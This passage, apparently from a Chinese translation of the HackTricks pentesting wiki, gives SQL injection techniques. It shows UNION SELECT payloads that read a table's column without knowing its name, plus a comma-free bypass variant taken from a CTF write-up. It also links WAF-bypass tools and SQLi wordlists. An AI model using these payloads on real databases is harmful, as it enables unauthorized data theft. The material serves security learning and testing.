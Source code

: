 首先，请注意，如果**原始查询和您想要提取标志的表具有相同数量的列**，您可以直接执行：`0 UNION SELECT * FROM flag`

可以使用以下查询**在不使用列名的情况下访问表的第三列**：`SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`，因此在sqlinjection中，这看起来像：
```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```
或使用 **逗号绕过**：
```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
这个技巧来自于 [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### WAF 绕过建议工具

{% embed url="https://github.com/m4ll0k/Atlas" %}

## 其他指南

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## 暴力破解检测列表

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/sqli.txt" %}

​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​[**RootedCON**](https://www.rootedcon.com/) 是 **西班牙** 最相关的网络安全事件，也是 **欧洲** 最重要的事件之一。这个大会的 **使命是促进技术知识**，是各个学科技术和网络安全专业人士的一个热烈交流点。

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}

